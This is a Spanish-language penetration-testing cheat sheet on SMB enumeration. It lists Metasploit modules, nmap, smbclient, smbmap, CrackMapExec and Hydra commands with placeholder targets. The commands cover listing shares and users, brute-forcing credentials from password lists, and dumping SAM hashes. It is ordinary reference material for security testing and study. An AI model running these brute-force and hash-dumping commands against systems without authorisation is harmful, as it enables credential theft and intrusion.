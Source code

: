 # **📂 Enumeración SMB**

SMB permite compartir archivos en red. La enumeración SMB puede revelar usuarios, recursos compartidos y vulnerabilidades.

### 1️⃣ Metasploit

🔍 Identificar versión de SMB
`use auxiliary/scanner/smb/smb_version`
`set RHOSTS <IP>`
`run`

📁 Listar recursos compartidos

`use auxiliary/scanner/smb/smb_enumshares`
`set RHOSTS <IP>`
`run`

👤 Enumerar usuarios

`use auxiliary/scanner/smb/smb_enumusers`
`set RHOSTS <IP>`
`run`

**Enumerar usuarios con nmap**
`nmap -p 445 --script smb-enum-users.nse <ip>`

🔑 Probar credenciales
`use auxiliary/scanner/smb/smb_login 
`set RHOSTS <IP>` 
`set USER_FILE users.txt` 
`set PASS_FILE passwords.txt run`

## 2️⃣smb client

📂 Listar recursos compartidos
`smbclient -L //<IP> -N

📁 Acceder a un recurso
`smbclient //<IP>/sharename -U usuario

**📜 Descargar/Subir archivos**
`get <archivo>  # Descargar
`put <archivo>  # Subir`

## 3 smbmap
Listar recursos y permisos sobre esos recursos de un usuario:
`smbmap -u username -p password -H <ip>`

## 3️⃣ CrackMapExec

🕵️‍♂️ **Escaneo SMB**
`crackmapexec smb <IP>

📁 Listar recursos compartidos
`crackmapexec smb <IP> --shares
`
🔑 Probar credenciales
`crackmapexec smb <IP> -u usuario -p contraseña`

💀 Dump de hashes
`crackmapexec smb <IP> -u usuario -p contraseña --sam

### **✅ Probar credenciales SMB con Hydra**

`hydra -L users.txt -P passwords.txt <ip> smb
`



`



`
`

`
